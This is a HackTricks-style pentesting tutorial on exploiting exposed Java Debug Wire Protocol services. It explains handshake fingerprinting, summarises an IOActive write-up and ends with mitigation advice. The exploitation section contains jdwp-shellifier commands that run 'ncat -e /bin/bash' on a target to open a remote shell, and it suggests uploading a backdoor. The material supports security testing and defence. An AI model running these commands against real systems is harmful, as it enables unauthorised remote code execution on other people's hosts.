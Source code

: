 # Pentesting JDWP - Java Debug Wire Protocol

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Exploiting

JDWP exploitation hinges on the **protocol's lack of authentication and encryption**. It's generally found on **port 8000**, but other ports are possible. The initial connection is made by sending a "JDWP-Handshake" to the target port. If a JDWP service is active, it responds with the same string, confirming its presence. This handshake acts as a fingerprinting method to identify JDWP services on the network.

In terms of process identification, searching for the string "jdwk" in Java processes can indicate an active JDWP session.

The go-to tool is [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). You can use it with different parameters:

```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```

I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

## More details

**This is a summary of [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)**. Check it for further details.


1. **JDWP Overview**:
    - It's a packet-based network binary protocol, primarily synchronous.
    - Lacks authentication and encryption, making it vulnerable when exposed to hostile networks.

2. **JDWP Handshake**:
    - A simple handshake process is used to initiate communication. A 14-character ASCII string “JDWP-Handshake” is exchanged between the Debugger (client) and the Debuggee (server).

3. **JDWP Communication**:
    - Messages have a simple structure with fields like Length, Id, Flag, and CommandSet.
    - CommandSet values range from 0x40 to 0x80, representing different actions and events.

4. **Exploitation**:
    - JDWP allows loading and invoking arbitrary classes and bytecode, posing security risks.
    - The article details an exploitation process in five steps, involving fetching Java Runtime references, setting breakpoints, and invoking methods.

5. **Real-Life Exploitation**:
    - Despite potential firewall protections, JDWP services are discoverable and exploitable in real-world scenarios, as demonstrated by searches on platforms like ShodanHQ and GitHub.
    - The exploit script was tested against various JDK versions and is platform-independent, offering reliable Remote Code Execution (RCE).

6. **Security Implications**:
    - The presence of open JDWP services on the internet underscores the need for regular security reviews, disabling debug functionalities in production, and proper firewall configurations.


### **References:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
